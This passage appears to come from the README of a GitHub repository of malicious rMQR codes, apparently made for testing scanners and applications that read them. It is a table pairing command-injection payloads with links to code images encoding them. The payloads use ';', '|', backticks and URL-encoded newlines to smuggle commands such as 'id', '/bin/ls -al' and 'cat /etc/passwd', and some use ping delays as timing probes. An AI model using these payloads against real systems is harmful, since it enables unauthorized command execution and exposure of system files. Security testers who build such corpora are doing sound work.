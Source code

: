 | `a);id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/35.png) |
| `a;id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/36.png) |
| `a);id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/37.png) |
| `a;id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/38.png) |
| `a)\|id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/39.png) |
| `a\|id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/40.png) |
| `a)\|id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/41.png) |
| `a\|id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/42.png) |
| `\|/bin/ls -al` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/43.png) |
| `a);/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/44.png) |
| `a;/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/45.png) |
| `a);/usr/bin/id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/46.png) |
| `a;/usr/bin/id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/47.png) |
| `a);/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/48.png) |
| `a;/usr/bin/id\|` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/49.png) |
| `a)\|/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/50.png) |
| `a\|/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/51.png) |
| `a)\|/usr/bin/id;` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/52.png) |
| `a\|/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/53.png) |
| `;system('cat%20/etc/passwd')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/54.png) |
| `;system('id')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/55.png) |
| `;system('/usr/bin/id')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/56.png) |
| `%0Acat%20/etc/passwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/57.png) |
| `%0A/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/58.png) |
| `%0Aid` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/59.png) |
| `%0A/usr/bin/id%0A` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/60.png) |
| `%0Aid%0A` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/61.png) |
| `& ping -i 30 127.0.0.1 &` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/62.png) |
| `& ping -n 30 127.0.0.1 &` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/63.png) |
| `%0a ping -i 30 127.0.0.1 %0a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/64.png) |
| ``ping 127.0.0.1`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/65.png) |
| `\| id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/66.png) |
| `& id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/67.png) |
| `; id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/68.png) |
| `%0a id %0a` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/69.png) |
| ``id`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/70.png) |
| `$;/usr/bin/id` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/71.png) |